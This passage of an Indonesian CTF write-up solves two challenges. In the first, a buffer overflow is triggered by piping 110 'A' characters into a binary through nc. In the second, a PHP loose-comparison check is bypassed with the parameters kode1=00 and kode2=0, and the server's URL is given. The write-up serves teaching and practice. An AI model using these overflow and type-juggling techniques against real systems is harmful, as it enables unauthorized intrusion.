 Coba kita masukkan 'A' lebih banyak lagi

```sh
(python -c "print 'A'*110";cat) | ./ez-pwn
Masukan Angka (Max 10 digits)
Hi, here is your flag: 
cat: flag.txt: No such file or directory
```

nas kita sudah bisa mereplika permasalahan di atas. Sekarang kita coba ke server CTF nya

```sh
(python -c "print 'A'*110";cat) | nc 103.144.22.12 1002
Masukan Angka (Max 10 digits)
Hi, here is your flag: 
tangerangkota{d1KerJ4iN_k3rJ44n_buT__S000000___Eeee33zzzzZZZ!!!}
```

# Web

## Kode Nuklir Rahasia (400)

```php
<?php

if (isset($_GET['kode1']) && isset($_GET['kode2'])) {
    $kode1 = $_GET['kode1'];
    $kode2 = $_GET['kode2'];

    if ($kode1 !== $kode2) {
        if ($kode1 == $kode2) {
            die("tangerangkota{ini_bukan_flagnya_ya}");
        }
    }
    die("kode salah");
} else {
    die('/?kode1=&kode2=');
}
```

Bisa dilihat dari kode yang sudah diberikan, bahwa untuk mendapatkan flagnya kita harus membypass beberapa if statement. Coba lihat if statement berikut ini

```php
if ($kode1 !== $kode2) {
        if ($kode1 == $kode2) {
```

kita haris menginputkan variable $kode1 tidak identikal dengan $kode2, danjuga harus membuatnya tidak sama dengan, bagaimana caranya...

Disini kita akan memecahkan algoritmanya denga 00 dan 0, karena kedua angka tersebut memenuhi kualifikasi di atas.
http://103.144.22.12:5002/?kode1=00&kode2=0
